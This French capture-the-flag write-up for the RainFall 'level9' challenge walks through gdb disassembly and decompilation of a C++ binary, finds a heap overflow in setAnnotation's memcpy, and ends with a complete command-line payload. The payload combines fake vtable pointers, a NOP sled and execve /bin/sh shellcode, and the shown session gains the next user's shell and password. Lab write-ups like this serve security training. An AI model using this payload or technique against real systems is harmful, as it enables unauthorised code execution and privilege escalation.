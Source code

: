 # **Level 9**

Pour le `level9`, on explore le code avec `gdb`

```
(gdb) disas main
Dump of assembler code for function main:
   0x080485f4 <+0>:     push   %ebp
   0x080485f5 <+1>:     mov    %esp,%ebp
   0x080485f7 <+3>:     push   %ebx
   0x080485f8 <+4>:     and    $0xfffffff0,%esp
   0x080485fb <+7>:     sub    $0x20,%esp
   0x080485fe <+10>:    cmpl   $0x1,0x8(%ebp)
   0x08048602 <+14>:    jg     0x8048610 <main+28>
   0x08048604 <+16>:    movl   $0x1,(%esp)
   0x0804860b <+23>:    call   0x80484f0 <_exit@plt>
   0x08048610 <+28>:    movl   $0x6c,(%esp)
   0x08048617 <+35>:    call   0x8048530 <_Znwj@plt>
   0x0804861c <+40>:    mov    %eax,%ebx
   0x0804861e <+42>:    movl   $0x5,0x4(%esp)
   0x08048626 <+50>:    mov    %ebx,(%esp)
   0x08048629 <+53>:    call   0x80486f6 <_ZN1NC2Ei>
   0x0804862e <+58>:    mov    %ebx,0x1c(%esp)
   0x08048632 <+62>:    movl   $0x6c,(%esp)
   0x08048639 <+69>:    call   0x8048530 <_Znwj@plt>
   0x0804863e <+74>:    mov    %eax,%ebx
   0x08048640 <+76>:    movl   $0x6,0x4(%esp)
   0x08048648 <+84>:    mov    %ebx,(%esp)
   0x0804864b <+87>:    call   0x80486f6 <_ZN1NC2Ei>
   0x08048650 <+92>:    mov    %ebx,0x18(%esp)
   0x08048654 <+96>:    mov    0x1c(%esp),%eax
   0x08048658 <+100>:   mov    %eax,0x14(%esp)
   0x0804865c <+104>:   mov    0x18(%esp),%eax
   0x08048660 <+108>:   mov    %eax,0x10(%esp)
   0x08048664 <+112>:   mov    0xc(%ebp),%eax
   0x08048667 <+115>:   add    $0x4,%eax
   0x0804866a <+118>:   mov    (%eax),%eax
   0x0804866c <+120>:   mov    %eax,0x4(%esp)
   0x08048670 <+124>:   mov    0x14(%esp),%eax
   0x08048674 <+128>:   mov    %eax,(%esp)
   0x08048677 <+131>:   call   0x804870e <_ZN1N13setAnnotationEPc>
   0x0804867c <+136>:   mov    0x10(%esp),%eax
   0x08048680 <+140>:   mov    (%eax),%eax
   0x08048682 <+142>:   mov    (%eax),%edx
   0x08048684 <+144>:   mov    0x14(%esp),%eax
   0x08048688 <+148>:   mov    %eax,0x4(%esp)
   0x0804868c <+152>:   mov    0x10(%esp),%eax
   0x08048690 <+156>:   mov    %eax,(%esp)
   0x08048693 <+159>:   call   *%edx
   0x08048695 <+161>:   mov    -0x4(%ebp),%ebx
   0x08048698 <+164>:   leave
   0x08048699 <+165>:   ret
End of assembler dump.
(gdb) disas 0x804870e
Dump of assembler code for function _ZN1N13setAnnotationEPc:
   0x0804870e <+0>:     push   %ebp
   0x0804870f <+1>:     mov    %esp,%ebp
   0x08048711 <+3>:     sub    $0x18,%esp
   0x08048714 <+6>:     mov    0xc(%ebp),%eax
   0x08048717 <+9>:     mov    %eax,(%esp)
   0x0804871a <+12>:    call   0x8048520 <strlen@plt>
   0x0804871f <+17>:    mov    0x8(%ebp),%edx
   0x08048722 <+20>:    add    $0x4,%edx
   0x08048725 <+23>:    mov    %eax,0x8(%esp)
   0x08048729 <+27>:    mov    0xc(%ebp),%eax
   0x0804872c <+30>:    mov    %eax,0x4(%esp)
   0x08048730 <+34>:    mov    %edx,(%esp)
   0x08048733 <+37>:    call   0x8048510 <memcpy@plt>
   0x08048738 <+42>:    leave
   0x08048739 <+43>:    ret
End of assembler dump.
```
Et on decompile le code

```
void main(int param_1,int param_2)
{
  N *this;
  undefined4 *this_00;
  
  if (param_1 < 2) {
                    // WARNING: Subroutine does not return
    _exit(1);
  }
  this = (N *)operator_new(0x6c);
  N::N(this,5);
  this_00 = (undefined4 *)operator_new(0x6c);
  N::N((N *)this_00,6);
  N::setAnnotation(this,*(char **)(param_2 + 4));
  (**(code **)*this_00)(this_00,this);
  return;
}

void __thiscall N::setAnnotation(N *this,char *param_1)
{
  size_t __n;
  
  __n = strlen(param_1);
  memcpy(this + 4,param_1,__n);
  return;
}
```

On comprend rapidement que le code prend le premier input utilisateur, rempli une structure avec un `memcpy` (fonction qui permet l'overflow)
En regardant le code assembleur, on voit un call a `edx`, en remontant un peu, on peut facilement comprendre ce qui ce passe

```
   0x0804867c <+136>:   mov    eax,DWORD PTR [esp+0x10]
   0x08048680 <+140>:   mov    eax,DWORD PTR [eax]
   0x08048682 <+142>:   mov    edx,DWORD PTR [eax]
   0x08048684 <+144>:   mov    eax,DWORD PTR [esp+0x14]
   0x08048688 <+148>:   mov    DWORD PTR [esp+0x4],eax
   0x0804868c <+152>:   mov    eax,DWORD PTR [esp+0x10]
   0x08048690 <+156>:   mov    DWORD PTR [esp],eax
   0x08048693 <+159>:   call   edx
```

Donc le code recupere la valeur de `esp+16` puis la `dereference` deux fois

Commençons par trouver la position initial avec l'overflow

```
(gdb) run $(python -c "print'a'*108+'ABCDEFGHIJKLMNOPQRSTUVWXYZ'")
Starting program: /home/user/level9/level9 $(python -c "print'a'*108+'ABCDEFGHIJKLMNOPQRSTUVWXYZ'")

Breakpoint 1, 0x0804867c in main ()
(gdb) si
0x08048680 in main ()
(gdb) x $eax
0x804a078:      0x44434241
```

> Comme `0x44434241` correspond a `ABCD` on sait que l'overflow ce fais juste apres le buffer

Maintenant il n'y a plus qu'a dereferencer l'addresse deux fois et mettre notre `shellcode` prefere pour que notre payload soit complete

On regarde dans la heap ou se trouve notre string

```
(gdb) x/64wx 0x804a078 - 112
0x804a008:      0x08048848      0x41414141      0x41414141      0x41414141
0x804a018:      0x41414141      0x41414141      0x41414141      0x41414141
0x804a028:      0x41414141      0x41414141      0x41414141      0x41414141
0x804a038:      0x41414141      0x41414141      0x41414141      0x41414141
0x804a048:      0x41414141      0x41414141      0x41414141      0x41414141
0x804a058:      0x41414141      0x41414141      0x41414141      0x41414141
0x804a068:      0x41414141      0x41414141      0x41414141      0x41414141
0x804a078:      0x45444342      0x00000000      0x00000000      0x00000000
```
> On voit qu'elle demarre a `0x0804a00c`

On ecrit notre payload

```
level9@RainFall:~$ ./level9 $(python -c "print'\x10\xa0\x04\x08'+'\x14\xa0\x04\x08'+'\x90'*55+'\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh'+'\x0c\xa0\x04\x08'")
$ id
uid=2009(level9) gid=2009(level9) euid=2010(bonus0) egid=100(users) groups=2010(bonus0),100(users),2009(level9)
$ cat /home/user/bonus0/.pass
f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d90672
```

> ### NEXT : [Bonus0](/bonus0/resources/README.md)
